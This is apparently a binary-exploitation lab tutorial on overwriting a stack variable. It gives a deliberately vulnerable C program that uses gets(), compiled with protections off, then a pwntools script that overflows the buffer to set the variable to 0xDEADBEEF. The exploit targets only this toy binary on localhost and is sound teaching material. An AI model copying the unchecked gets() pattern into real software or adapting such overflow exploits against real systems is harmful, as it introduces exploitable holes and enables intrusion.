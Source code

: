 ```yaml
---
description: 10/11/2023
cover: https://lparchive.org/ROM-Corruption-Megathread/Images/1-12z1X7C.gif
coverY: 0
---
```


# 🖊 Overwriting Local Variables

## Introduction

Did you know that you can overwrite local variables on the stack and change the program's logic?

Here, we'll be going over that!

## Target

`vuln.c`**:**

```c
// A binary exploitation demonstration focusing on overwriting local variables on the stack.

#include <stdio.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    volatile int hackme;
    char buffer[100];

    puts("Can you overwrite the variable on the stack?\n");

    hackme = 0;
    gets(buffer);

    // if(strcmp(buffer, "0xDEADBEEF") == 0)
    if(hackme == 0xDEADBEEF)
    {
        printf("Access Granted, you changed the variable!\n");
        hackme = 0;
    }

    else
    {
        printf("Try harder!\n");
    }

    return 0;
}
```

### The Vulnerability

As you can see, we have a <mark style="color:yellow;">vulnerable</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`gets()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">function</mark> that will write our input into the buffer variable that is allocated for 100-bytes of data.

The reason `gets()` is vulnerable is because <mark style="color:yellow;">it performs zero checks for writing past the data length of 100-bytes</mark>.&#x20;

Ultimately allowing us to overflow the buffer, overwrite memory, and control the flow of execution.

### Compile

```
gcc vuln.c -o vuln -Q -g -fno-stack-protector -z execstack -no-pie
```

## Enumeration

#### `file`:

{% code overflow="wrap" %}
```
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=acd5e5a4a583c059d16b17798e2c5da129f27edb, for GNU/Linux 3.2.0, with debug_info, not stripped
```
{% endcode %}

#### `checksec`:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## Dynamic Analysis w/ `pwndbg`

#### Load binary into `pwndbg`:

```
gdb vuln -q
```

* `-q` will load the symbols into the debugger and grant us access to the source code within the debugging window

#### Place a breakpoint on `main()` and run the binary:

```
b main
r
```

<figure><img src="../.gitbook/assets/image (169).png" alt=""><figcaption><p>Analyzing the binary in <code>pwndbg</code></p></figcaption></figure>

#### Generate a cyclic pattern of 200-bytes (because of our 100-byte buffer):

```
cyclic 200
```

* Copy the entire string

#### Run the program and send the pattern in as input:

```
c

Continuing.
Can you overwrite the variable on the stack?

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
Try harder!
Program received signal SIGSEGV, Segmentation fault.
```

The program will seg fault.

<figure><img src="../.gitbook/assets/image (172).png" alt=""><figcaption><p>Seeing value of <code>RBP</code></p></figcaption></figure>

#### Obtain the offset of the overwritten `RBP` value:

```
cyclic -l oaaaaaaa
Finding cyclic pattern of 8 bytes: b'oaaaaaaa' (hex: 0x6f61616161616161)
Found at offset 112
```

<mark style="color:yellow;">Perfect, we now have our padding</mark>.

We want to actually utilize 108-bytes of junk data (`A`'s) here and then make the next 8-bytes `'0xDEADBEEF'` in little endian, `'\xEF\xBE\xAD\xDE'`.

#### Payload Structure:

```
[108-bytes of A's (Junk)] + [8-bytes for overwriting the variable: \xEF\xBE\xAD\xDE]
```

## Exploit Development

```python
from pwn import *

exe = ELF('./vuln')

# Uncomment one or the other for proper process startup -- local or debugger?
def conn():
    if args.LOCAL:  
        r = process([exe.path])                   # Just start the local process
        # r = gdb.debug([exe.path])                   # Open with pwndbg debugger
    else:
        r = remote("127.0.0.1", 9999)

    return r

def main():

    r = conn()

    padding = b'A'*108

    deadbeef = b'\xEF\xBE\xAD\xDE'

    payload = b''.join([
        padding,
        deadbeef
    ])

    print("payload:", payload)
    write("payload", payload)

    r.sendline(payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

#### Automated Exploitation

```
python3 exploit.py LOCAL
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Obtaining the winning condition</p></figcaption></figure>

#### Manual Exploitation

#### With our payload being saved to a file named `payload`, we can manually pwn this binary:

```python
./vuln < payload
Can you overwrite the variable on the stack?

Access Granted, you changed the variable!
```
